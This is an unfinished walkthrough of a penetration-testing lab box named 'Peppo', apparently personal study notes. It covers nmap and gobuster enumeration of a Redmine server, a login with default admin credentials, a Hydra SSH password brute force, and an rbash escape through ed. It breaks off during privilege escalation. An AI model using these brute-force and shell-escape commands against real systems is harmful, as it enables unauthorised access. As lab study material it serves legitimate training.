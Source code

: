 # "Peppo" (Hard) - Incomplete

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE  SERVICE           VERSION
22/tcp    open   ssh               OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 754c0201fa1e9fcce47b52feba3685a9 (RSA)
|   256 b76f9c2bbffb0462f418c938f43d6b2b (ECDSA)
|_  256 987fb640cebbb557d5d13c65727487c3 (ED25519)
|_auth-owners: root
53/tcp    closed domain
113/tcp   open   ident             FreeBSD identd
|_auth-owners: nobody
5432/tcp  open   postgresql        PostgreSQL DB 12.3 - 12.4
8080/tcp  open   http              WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31))
|_http-favicon: Unknown favicon MD5: D316E1622C58825727E7E4E6C954D289
|_http-server-header: WEBrick/1.4.2 (Ruby/2.6.6/2020-03-31)
|_http-title: Redmine
| http-robots.txt: 4 disallowed entries 
|_/issues/gantt /issues/calendar /activity /search
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10000/tcp open   snet-sensor-mgmt?
|_auth-owners: eleanor
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:42 GMT
|     Connection: close
|     Hello World
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain
|     Date: Sun, 13 Nov 2022 20:35:36 GMT
|     Connection: close
|_    Hello World
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port10000-TCP:V=7.93%I=7%D=11/13%Time=63715518%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,71,"HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\
SF:nDate:\x20Sun,\x2013\x20Nov\x202022\x2020:35:36\x20GMT\r\nConnection:\x
SF:20close\r\n\r\nHello\x20World\n")%r(HTTPOptions,71,"HTTP/1\.1\x20200\x2
SF:0OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\x2013\x20Nov\x20202
SF:2\x2020:35:36\x20GMT\r\nConnection:\x20close\r\n\r\nHello\x20World\n")%
SF:r(RTSPRequest,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:nnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSStatusReques
SF:tTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n
SF:\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20
SF:close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(TerminalServerCookie,2F,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(TLSSession
SF:Req,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\
SF:r\n")%r(Kerberos,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\
SF:x20close\r\n\r\n")%r(SMBProgNeg,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nConnection:\x20close\r\n\r\n")%r(X11Probe,2F,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nConnection:\x20close\r\n\r\n")%r(FourOhFourRequest,71,"
SF:HTTP/1\.1\x20200\x20OK\r\nContent-Type:\x20text/plain\r\nDate:\x20Sun,\
SF:x2013\x20Nov\x202022\x2020:35:42\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:Hello\x20World\n")%r(LPDString,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\nConnection:\x20close\r\n\r\n")%r(LDAPSearchReq,2F,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(LDAPBindReq,2F,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(SI
SF:POptions,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close
SF:\r\n\r\n")%r(LANDesk-RC,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConne
SF:ction:\x20close\r\n\r\n")%r(TerminalServer,2F,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\nConnection:\x20close\r\n\r\n");
Service Info: OSs: Linux, FreeBSD; CPE: cpe:/o:linux:linux_kernel, cpe:/o:freebsd:freebsd
```

Enumerated UDP ports:

```
Not shown: 1000 open|filtered udp ports (no-response)
```

Notes:

* 21/SSH is open -- Password?
  * Potential users:&#x20;
    * admin
    * root
    * eleanor
* Searchsploited Everything
* Directory bruteforce on both HTTP endpoints
* Nikto 8080 and 10000

## Enumeration

### Port 8080 - HTTP (WEBrick httpd 1.4.2 (Ruby 2.6.6 (2020-03-31)))

Directory Bruteforce:

```
gobuster dir -u http://192.168.81.60:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.81.60:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/13 15:40:51 Starting gobuster in directory enumeration mode
===============================================================
/404                  (Status: 200) [Size: 459]
/500                  (Status: 200) [Size: 648]
/activity             (Status: 200) [Size: 7311]
/admin.cgi            (Status: 401) [Size: 0]
/admin.php            (Status: 401) [Size: 0]
/admin.pl             (Status: 401) [Size: 0]
/admin                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fadmin]
/favicon.ico          (Status: 200) [Size: 7886]
/groups               (Status: 302) [Size: 149] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fgroups]
/issues               (Status: 200) [Size: 19696]
/login                (Status: 200) [Size: 5011]
/logout               (Status: 302) [Size: 92] [--> http://192.168.81.60:8080/]
/my                   (Status: 302) [Size: 145] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fmy]
/news                 (Status: 200) [Size: 5361]
/projects             (Status: 200) [Size: 12258]
/queries              (Status: 406) [Size: 4768]
/robots.txt           (Status: 200) [Size: 103]
/roles                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Froles]                                                                                                              
/search               (Status: 200) [Size: 7933]
/settings             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fsettings]                                                                                                           
/trackers             (Status: 302) [Size: 151] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Ftrackers]                                                                                                           
/users                (Status: 302) [Size: 148] [--> http://192.168.81.60:8080/login?back_url=http%3A%2F%2F192.168.81.60%3A8080%2Fusers]                                                                                                              
Progress: 4695 / 4714 (99.60%)
```

Default Credentials:&#x20;

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

* I was able to use default credentials on the admin page
* Upon logging in, I had to change my credentials because they expired

Information Page:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">The version at the bottom also says that it is running a 2020 version</mark>

## Exploitation

### Password same as username

Hydra Bruteforce:

```
hydra -L users -P users 192.168.81.60 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-13 17:08:10
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ssh://192.168.81.60:22/
[22][ssh] host: 192.168.81.60   login: eleanor   password: eleanor
```

## Privilege Escalation

### Rbash Jail

<figure><img src="../../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">We need to find a way to escape rbash</mark>

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

<mark style="color:yellow;">Escaped</mark>:

```
ed
!'/bin/bash'
```
